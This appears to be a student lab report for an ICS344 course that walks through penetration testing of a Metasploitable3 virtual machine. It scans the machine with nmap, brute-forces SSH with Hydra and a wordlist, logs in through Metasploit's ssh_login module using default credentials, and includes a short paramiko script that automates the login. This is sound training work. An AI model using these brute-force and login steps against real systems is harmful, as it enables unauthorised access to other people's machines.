








# ICS344 - Phase 1 Report
**Network Penetration Testing using SSH Vulnerabilities**

---

## Environment Setup

- **Attacker Machine:** Kali Linux
  - IP Address: `192.168.8.164/24`
  
  

- **Victim Machine:** Metasploitable3 Ubuntu 14.04
  - IP Address: `192.168.8.165/24`
  
  

---

## Task 1.1: Manual Exploitation Using Metasploit Framework

### 1. **Network Connectivity Test**

Verified communication:

```bash
ping 192.168.8.165
```



---

### 2. **Scanning the Victim with Nmap**

Discovering services:

```bash
nmap -sV 192.168.8.165
```



---

### 3. **Brute-Forcing SSH with Hydra**

```bash
hydra -l vagrant -P /usr/share/wordlists/rockyou.txt ssh://192.168.8.165
```



---

### 4. **Launching Metasploit Framework**

```bash
sudo msfconsole
```



---

### 5. **Exploiting SSH Using Metasploit**

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.8.165
set USERNAME vagrant
set PASSWORD vagrant
set STOP_ON_SUCCESS true
run
```

---

### 6. **Opening SSH Session**

```bash
sessions
sessions -i 1
```

---

### 7. **Verifying Shell Access**

```bash
whoami
uname -a
```

---

## Task 1.2: Automated Exploitation Using Python

### 1. Installing Python SSH Library

```bash
sudo apt update
sudo apt install python3-pip
pip3 install paramiko
```

---

### 2. Developing the Script

```python
import paramiko

target_ip = "192.168.8.165"
port = 22
username = "vagrant"
password = "vagrant"

def ssh_connect(ip, port, user, passwd):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(ip, port=port, username=user, password=passwd)
        print(f"[+] Connected successfully to {ip} via SSH!")
        stdin, stdout, stderr = client.exec_command('whoami')
        print("[+] Command output:")
        print(stdout.read().decode())
        client.close()
    except Exception as e:
        print(f"[-] Connection Failed: {e}")

ssh_connect(target_ip, port, username, password)
```



---

### 3. Executing the Script

```bash
python3 ssh_exploit.py
```



---

# End of Phase 1 ✅
